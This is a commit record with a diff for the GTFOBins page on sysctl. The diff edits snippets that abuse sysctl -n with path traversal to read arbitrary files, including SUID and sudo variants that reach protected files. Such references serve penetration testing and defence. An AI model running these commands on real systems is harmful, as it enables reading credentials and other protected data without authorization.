

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sysctl.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 978 px from its top, so only the background shows below that.

Commit message:
Fix and polish sysctl

```diff
--- a/_gtfobins/sysctl.md
+++ b/_gtfobins/sysctl.md
@@ -1,16 +1,16 @@
 ---
+description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
 functions:
   file-read:
-    - description: It reads data from arbitrary files when combined with a path-traversal. The -p argument can also be used in place of -n.
     - code: |
         LFILE=file_to_read
-        sysctl -n "/../../../../../$LFILE"
+        /usr/sbin/sysctl -n "/../../$LFILE"
   suid:
     - code: |
         LFILE=file_to_read
-        ./sysctl -n "/../../../../../$LFILE"
+        ./sysctl -n "/../../$LFILE"
   sudo:
     - code: |
         LFILE=file_to_read
-        sudo sysctl -n "/../../../../../$LFILE"
+        sudo sysctl -n "/../../$LFILE"
 ---
```
